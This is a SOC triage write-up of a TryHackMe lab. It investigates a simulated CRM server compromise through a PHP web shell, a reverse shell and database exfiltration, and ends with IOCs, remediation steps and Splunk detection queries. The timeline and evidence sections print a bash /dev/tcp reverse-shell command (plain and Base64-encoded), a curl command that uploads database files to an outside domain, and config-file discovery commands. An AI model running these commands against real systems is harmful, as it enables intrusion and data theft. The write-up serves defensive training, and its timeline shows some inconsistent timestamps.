







# Case 05: CRM Portal Breach – Web Shell Upload to Reverse Shell & Database Exfiltration

- **Environment:** TryHackMe – Portal Drop (Medium)
- **Triage Scope:** Multi-Source Telemetry (Splunk Enterprise Web Access Logs, TryDetectMe XDR, Decodora Offline Decoder, VirusTotal CTI)
- **Severity:** `Critical` | **Triage Verdict:** `True Positive` (Confirmed Server Compromise & Data Exfiltration)
- **Escalation Decision:** `Escalated to Tier 2 / Incident Response`
- **Investigation Outcome:** Room Completed 100% (400/400 pts | Captured Flag: `THM{p0rtal_dropp3d?}`)
- **MITRE ATT&CK:** `T1190` (Exploit Public-Facing Application), `T1505.003` (Web Shell), `T1059.004` (Unix Shell), `T1071.001` (Web Protocols), `T1082` (System Information Discovery), `T1016` (System Network Configuration Discovery), `T1083` (File & Directory Discovery), `T1552.001` (Credentials in Files), `T1005` (Data from Local System), `T1048.003` (Exfiltration Over Unencrypted/Encrypted Non-C2 Protocol)

---

## 1. Executive Summary

A critical compromise of production CRM server `TPMHQ-CRM01` running on Ubuntu 22.04 LTS was detected following widespread credential stuffing attempts against `/CRM/login.php`, culminating in an unauthenticated arbitrary file upload via `/CRM/portal/upload.php` from threat actor IP `34.67.91[.]83` (`python-requests/2.31.0`) that dropped a PHP web shell at `/var/www/html/CRM/portal/uploads/invoice.php`. The adversary interacted with the web shell using a hardcoded authorization token (`auth=31337`) and Base64-encoded execution parameters, spawning an interactive reverse shell from `/usr/sbin/php-fpm7.4` to an external listener at `115.58.148[.]86:8080` (China Unicom Backbone). Operating under the `www-data` security context, the adversary performed internal host and network enumeration, harvested database credentials from `/etc/trycrm/config.json`, and staged production database assets before exfiltrating `/var/lib/trycrm/prod.db` and `/var/lib/trycrm/prod.idx` via `curl` to `https://portaldrop2025[.]xyz/x7Ja0mlqP`, prompting immediate host isolation, perimeter IP/domain blacklisting, web shell quarantine, and credential revocation.

---

## 2. Alert Scope

| Parameter | Technical Detail |
| :--- | :--- |
| **Primary Compromised Host** | `TPMHQ-CRM01` (Ubuntu 22.04 LTS, Apache2 + PHP-FPM 7.4) |
| **Secondary Monitored Host** | `TMPEU-UATSERVER` (Alert: Hands-on-keyboard root activity – Verified isolated/benign) |
| **Compromised Service Identity** | `www-data` (Apache web service account) |
| **Attacker Ingress IP** | `34.67.91[.]83` (User-Agent: `python-requests/2.31.0`) |
| **Brute Force Source Addresses** | Distributed IPs: `18.205.93[.]1`, `52.95.245[.]33`, `54.201.10[.]55`, `185.199.108[.]133` |
| **Reverse Shell / C2 Endpoint** | `115.58.148[.]86` (Port: `8080`, AS4837 China Unicom) |
| **Exfiltration Domain & Endpoint** | `https://portaldrop2025[.]xyz/x7Ja0mlqP` (Resolves to `115.58.148[.]86:443`) |
| **Uploaded Web Shell Artifact** | `/var/www/html/CRM/portal/uploads/invoice.php` (Passcode: `auth=31337`) |
| **Compromised Configuration File** | `/etc/trycrm/config.json` |
| **Exfiltrated Data Assets** | `/var/lib/trycrm/prod.db`, `/var/lib/trycrm/prod.idx` |

---

## 3. Investigation Timeline (UTC / Scenario Time)

| Timestamp | Log Source / Event | Technical Observation & Correlation |
| :--- | :--- | :--- |
| `Nov 6, 2025 14:17 - 14:20` | Splunk / `access_combined` | Multiple foreign IPs initiated automated POST credential stuffing against `/CRM/login.php` resulting in high-frequency `401 Unauthorized` responses (66.03%). |
| `Nov 6, 2025 14:27:32` | Splunk / `access_combined` | Attacker IP `34.67.91[.]83` using `python-requests/2.31.0` submitted an unauthenticated `POST /CRM/portal/upload.php`, successfully writing `/var/www/html/CRM/portal/uploads/invoice.php` (`HTTP 200`, 826 bytes). |
| `Nov 6, 2025 20:27:00` | TryDetectMe XDR / EDR Alert | High-severity alert triggered: **Suspicious File Write: Backdoor:PHP/Generic** on `TPMHQ-CRM01`. |
| `Nov 6, 2025 14:27:34` | Splunk / `access_combined` | Attacker invoked `POST /CRM/portal/uploads/invoice.php?q=ZDJodl1XMXA&auth=31337`. Decoded via **Decodora** as `whoami` to verify web context execution. |
| `Nov 6, 2025 14:28:34` | Splunk / `access_combined` | Attacker invoked `POST /CRM/portal/uploads/invoice.php?q=WW1GemFDQxRh...&auth=31337`. Decoded via **Decodora** as `bash -i >& /dev/tcp/115.58.148.86/8080 0>&1`. |
| `Nov 6, 2025 20:29:00` | TryDetectMe XDR / EDR Alert | High-severity alert triggered: **Parent-Child Anomaly: Shell Spawn** on `TPMHQ-CRM01`. Parent `/usr/sbin/php-fpm7.4` spawned `/bin/bash` with reverse shell connecting to `115.58.148[.]86:8080`. |
| `Nov 6, 2025 20:34:00` | TryDetectMe XDR / EDR Alert | Medium-severity alert triggered: **Unusual User Behavior: System Discovery** under `www-data` (Session: non-interactive). Attacker executed `uname -a`, `ip a`, and `find /etc -type f \( -name '*.yml' -o -name '*.json' -o -name '*.toml' \)`. |
| `Nov 6, 2025 20:34:10` | TryDetectMe XDR / Process Info | Sensitive credential access: Process `cat` (PID `1216`) read `/etc/trycrm/config.json`, exposing database connection parameters and local database paths. |
| `Nov 6, 2025 20:37:00` | TryDetectMe XDR / Process Info | Data Exfiltration: Process `curl` (PID `1224`) executed: `curl -sS -T /var/lib/trycrm/prod.db -T /var/lib/trycrm/prod.idx https://portaldrop2025.xyz/x7Ja0mlqP` connecting outbound to `115.58.148[.]86:443`. |
| `Nov 6, 2025 21:40:00` | TryDetectMe XDR / EDR Alert | Low-severity alert: **Hands-On-Keyboard Root Activity** on `TMPEU-UATSERVER`. Evaluated during triage to ensure no cross-server lateral movement occurred. |
| `Investigation Phase` | TryDetectMe XDR / Response | Analyst completed tactical response: host isolation, process termination (`PID 1203`), IP/domain blocking (`115.58.148[.]86`, `portaldrop2025[.]xyz`), web shell quarantine, and root cause analysis. |

---

### Forensic Evidence Artifacts

#### Evidence 1: Scenario Victory & 100% Room Completion
TryHackMe Portal Drop investigation completion dashboard confirming all investigative questions answered, 100% scenario completion, and full 400-point capture:


#### Evidence 2: Web Shell Drop & Execution Telemetry in Splunk
Splunk search capturing attacker IP `34.67.91[.]83` leveraging `python-requests/2.31.0` to upload `invoice.php` via `upload.php` and invoke execution commands:


#### Evidence 3: Reverse Shell Stager De-Obfuscation via Decodora (Custom Analyst Tool)
Decoding the Base64 payload `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTUuNTguMTQ4Ljg2LzgwODAgMD4mMQ==` offline using **[Decodora](https://mahialjaber.github.io/Decodora/)**, exposing the active interactive reverse shell payload targeting `115.58.148[.]86:8080`:


#### Evidence 4: EDR Parent-Child Anomaly – Interactive Shell Spawn
TryDetectMe XDR alert capturing the illegal execution lineage where `/usr/sbin/php-fpm7.4` spawned `/bin/bash` with argument `-c "bash -i >& /dev/tcp/115.58.148.86/8080 0>&1"`:


#### Evidence 5: VirusTotal Threat Intelligence on Reverse Shell Listener
CTI enrichment for `115.58.148[.]86` confirming multiple security vendors flagging the host as malicious malware infrastructure originating from China Unicom Backbone:


#### Evidence 6: Production Database Exfiltration via curl
Process and network telemetry capturing the unauthorized outbound upload of `/var/lib/trycrm/prod.db` and `/var/lib/trycrm/prod.idx` to staging domain `portaldrop2025[.]xyz`:


#### Evidence 7: Web Shell Quarantine & Challenge Flag Capture
Remediation confirmation showing file collection and quarantine of `/var/www/html/CRM/portal/uploads/invoice.php`, rewarding challenge flag `THM{p0rtal_dropp3d?}`:


---

## 4. What Could Make This Benign? (Disproving the Hypothesis)

To ensure defensible Tier-1 alert triage, potential benign explanations were evaluated against collected forensic evidence:

| Alternative Hypothesis | Verification Test | Forensic Finding & Disproval |
| :--- | :--- | :--- |
| **Legitimate User Invoice Upload** | Examine uploaded file MIME type, file headers, and extension. | ❌ The uploaded file was named `invoice.php` (executable PHP code, not a PDF/image) uploaded via an unauthenticated endpoint and executed immediately with a hardcoded auth parameter `auth=31337`. |
| **Authorized DevOps Administration** | Check whether interactive bash commands are standard PHP-FPM service operations. | ❌ Production PHP-FPM processes (`php-fpm7.4`) under standard configurations never legitimately spawn interactive `/bin/bash` sessions connecting to foreign public IP addresses (`115.58.148[.]86:8080`). |
| **Scheduled Database Backup Script** | Correlate `curl` upload with cron jobs and approved internal backup storage targets. | ❌ No cron job scheduled `curl -T` to `portaldrop2025[.]xyz`. The upload was run manually from an interactive reverse shell, targeting an external domain registered days prior and resolving to an unmanaged overseas IP. |
| **UAT Server Maintenance (Alert 4)** | Review activity on `TMPEU-UATSERVER` for signs of compromise. | ✔️ Root commands on `TMPEU-UATSERVER` were restricted to local system discovery during maintenance and showed no network egress or relation to `34.67.91[.]83` or `115.58.148[.]86`. Correctly verified as non-breached. |

**Triage Verdict:** All benign hypotheses for `TPMHQ-CRM01` are conclusively disproven. The event represents a confirmed **True Positive** critical intrusion.

---

## 5. Extracted Indicators of Compromise (Defanged)

### Network Indicators
- **Attacker Ingress IP (Web Shell Upload):** `34.67.91[.]83`
- **Reverse Shell C2 IP:** `115.58.148[.]86` (Port: `8080`)
- **Exfiltration Domain:** `portaldrop2025[.]xyz`
- **Exfiltration URL:** `hxxps://portaldrop2025[.]xyz/x7Ja0mlqP`
- **Exfiltration Egress Endpoint:** `115.58.148[.]86:443`
- **Distributed Brute Force IPs:** `18.205.93[.]1`, `52.95.245[.]33`, `54.201.10[.]55`, `185.199.108[.]133`

### Host & Artifact Indicators
- **Affected Server:** `TPMHQ-CRM01` (Ubuntu 22.04 LTS)
- **Compromised Account:** `www-data` (UID: `33`)
- **Malicious Web Shell:** `/var/www/html/CRM/portal/uploads/invoice.php`
- **Web Shell Auth Token:** `31337`
- **Accessed Config File:** `/etc/trycrm/config.json`
- **Targeted Assets:** `/var/lib/trycrm/prod.db`, `/var/lib/trycrm/prod.idx`
- **Abused System Binaries:** `/usr/sbin/php-fpm7.4`, `/bin/bash`, `/bin/cat`, `/bin/curl`

---

## 6. Containment & Remediation Actions

### 1. Tactical Endpoint Containment
- **Host Isolation:** Quarantined `TPMHQ-CRM01` via TryDetectMe XDR to sever all outbound connections while preserving volatile memory for digital forensics.
- **Process Termination:** Killed active rogue child bash processes (`PID 1203`, `PID 1224`) and restarted PHP-FPM service workers.
- **Artifact Quarantine:** Quarantined and extracted `/var/www/html/CRM/portal/uploads/invoice.php` for static analysis and hash generation.
- **Application Hardening:** Disabled direct script execution within the `/uploads/` directory in Apache configuration (`php_flag engine off` and `deny from all` for `.php` files).

### 2. Perimeter Network Containment
- **Firewall Egress Drop Rules:** Blocked destination IP `115.58.148[.]86` and ingress IP `34.67.91[.]83` across all edge firewalls.
- **DNS Sinkholing:** Configured internal DNS resolvers to sinkhole `portaldrop2025[.]xyz` to catch any persistence attempts.

### 3. Identity & Credential Remediation
- **Database Password Rotation:** Immediately rotated all database credentials stored in `/etc/trycrm/config.json`.
- **CRM Portal Audit:** Forced password resets for all CRM users whose hashed credentials or sessions were stored in `prod.db`.

### 4. SIEM Detection Engineering Queries

#### Query 1 (Splunk): Detect Web Shell Access in Uploads Directories
```spl
index="portal_drop" sourcetype="access_combined" uri_path="*/uploads/*.php*"
| stats count earliest(_time) as first_seen latest(_time) as last_seen values(clientip) as attacker_ips values(useragent) as agents by uri_path, status
| where count > 0
```

#### Query 2 (Sysmon / Auditd): Detect PHP-FPM Spawning Interactive Shells
```spl
index="linux_audit" (process_name="bash" OR process_name="sh") parent_process_name="php-fpm*"
| table _time, host, user, parent_process_name, process_name, process_exec, cmdline
```

#### Query 3 (Suricata / Zeek): Detect curl Uploads to External Storage Services
```spl
index="suricata" event_type="http" http.http_method="PUT" OR http.http_method="POST"
| regex http.url="^https?://(?!.*\.company\.thm).*"
| table _time, src_ip, dest_ip, http.hostname, http.url, http.user_agent, http.status
```
